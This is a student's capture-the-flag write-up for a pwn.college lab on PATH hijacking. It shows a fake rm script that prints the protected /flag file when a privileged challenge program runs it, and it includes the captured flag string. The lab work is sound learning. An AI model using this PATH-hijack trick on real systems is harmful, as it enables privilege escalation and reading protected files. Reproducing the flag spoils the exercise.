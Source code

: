 # Challenge Name
Hijacking commands

## My solve
**Flag:** `pwn.college{Qtjz32udqrZavSj3a1y7p1ribDC.QX3cjM1wCM2gjNzEzW}`

At first I thought of deleting rm using rm itself, but that did not work. Instead, I decided to make a fake rm command that instead of deleting the flag, displays it, and set its path as PATH
```bash
hacker@path~hijacking-commands:~$ mkdir ~/hijack
hacker@path~hijacking-commands:~$ cat > ~/hijack/rm << "EOF"
> #!/bin/bash
> /bin/cat /flag
> EOF
hacker@path~hijacking-commands:~$ chmod a+x ~/hijack/rm
hacker@path~hijacking-commands:~$ PATH=~/hijack
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{Qtjz32udqrZavSj3a1y7p1ribDC.QX3cjM1wCM2gjNzEzW}
```

## Incorrect tangents I went on
```bash
hacker@path~hijacking-commands:~$ which rm
/run/dojo/bin/rm
hacker@path~hijacking-commands:~$ rm /run/dojo/bin/rm
rm: cannot remove '/run/dojo/bin/rm': Read-only file system
```

## What I learned
How using the knowledge I gained in this module, create fake funtions that replace the original ones and work as I wish them to

## References
None
